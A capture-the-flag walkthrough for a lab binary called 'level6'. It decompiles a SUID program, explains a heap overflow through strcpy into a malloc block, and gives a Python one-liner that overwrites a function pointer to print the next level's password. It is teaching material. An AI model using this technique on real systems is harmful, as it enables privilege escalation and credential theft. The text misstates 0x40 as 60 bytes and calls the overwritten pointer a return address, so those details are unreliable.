 # Level6
Level6 let's us delve a little deeper on how malloc works

# Tools

# Walkthrough
The home of level6 contains a binary, `level6`. We retrieve it using scp and analyse it using dogbolt.

The binary has the SUID bit, and is owned by level7.

It reveals the 3 interesting functions:
```c
void main(undefined4 param_1,int param_2)
{
  char *__dest;
  code **ppcVar1;
  
  __dest = (char *)malloc(0x40);
  ppcVar1 = (code **)malloc(4);
  *ppcVar1 = m;
  strcpy(__dest,*(char **)(param_2 + 4));
  (**ppcVar1)();
  return;
}
```
The main function calls the `malloc` that allocates 0x40 = 60 bytes of memory. On that allocated block, `strcpy` is used to write the content of the first argument passed to the program. As `strcpy` doesn't check if what's going to be written in the buffer is small enough to fit, we can perform a heap buffer overflow by writing something big enough to overflow.

```c
void n(void)

{
  system("/bin/cat /home/user/level7/.pass");
  return;
}


void m(void *param_1,int param_2,char *param_3,int param_4,int param_5)
{
  puts("Nope");
  return;
}
```
`m` is called to print "Nope", and `n` is the function we want to execute. 
Using `info functions` on GDB, we can get the address of `n`, `0x08048454`


At first glance, we could think that, has we malloc 64 bytes, malloc will allocate 64 bytes and we will then be able to put the return address to esily overflow.
Actually, `malloc` allocates 8 more bytes. The 4 first bytes are for free, when the remaining 4 bytes contain the size of the malloced block, as well as if it has been freed or not. The block system is used to make memory management easier. See the Resources at the end of the document. 

To make our exploit work, instead of writing 64 bytes for padding, we thus need to write 72 bytes to overwrite the return address. 

```bash
./level6 $(python -c 'print "A"*72 + "\x54\x84\x04\x08"')
```


# Resources
[Understaning malloc and free](https://www.cs.princeton.edu/courses/archive/fall06/cos217/lectures/14Memory-2x2.pdf)
[The process thought around malloc](https://courses.engr.illinois.edu/cs241/sp2012/lectures/09-malloc.pdf)
[LiveOverflow Heap Overflow](https://www.youtube.com/watch?v=HPDBOhiKaD8)